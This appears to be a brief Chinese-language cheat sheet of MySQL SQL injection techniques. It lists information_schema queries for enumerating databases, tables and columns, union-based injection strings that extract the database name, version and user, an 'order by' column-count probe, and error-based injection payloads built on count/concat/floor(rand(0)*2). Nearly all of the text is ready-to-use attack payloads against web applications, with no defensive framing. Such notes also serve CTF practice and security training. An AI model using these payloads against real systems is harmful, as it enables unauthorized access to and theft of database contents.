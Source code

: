 # mysql

## 	查表三部曲

### 		1. 查找库名

```mysql
select distinct table_schema from information_schema.tables;
select distinct table_schema from information_schema.columns;
```

### 		2. 查找表名

```mysql
select table_name from information_schema.tables where table_schema='mysql';
select distinct table_name from information_schema.columns where table_schema='mysql';
```

### 		3. 查找字段名

```mysql
select column_name from information_schema.columns where table_schema='mysql' and table_name='user';
```

## 	union 注入

```mysql
'' or 1=1 union select 1,2,3 from <schema>.<tables> where 1='1'
'' union select 1,database(),version(),user() --''
```

## 快速查找字段数

```mysql
'1' order by 15 #
```

## 报错注入

```mysql
1 Union select count(*),concat((查询语句),0x26,floor(rand(0)*2))x from information_schema.columns group by x;
```

有时候“查询语句”可能不让用union,也只能一行一行的显示，这时候需要用到limit命令，如下：

```mysql
concat((select table_name from information_schema.tables where table_schema='sqli' limit 1,1),0x26,floor(rand(0)*2))x
```

[limit用法](https://blog.csdn.net/sinat_36246371/article/details/54582904)

limit a,b  :  从第a个开始，显示b个（a从0开始数）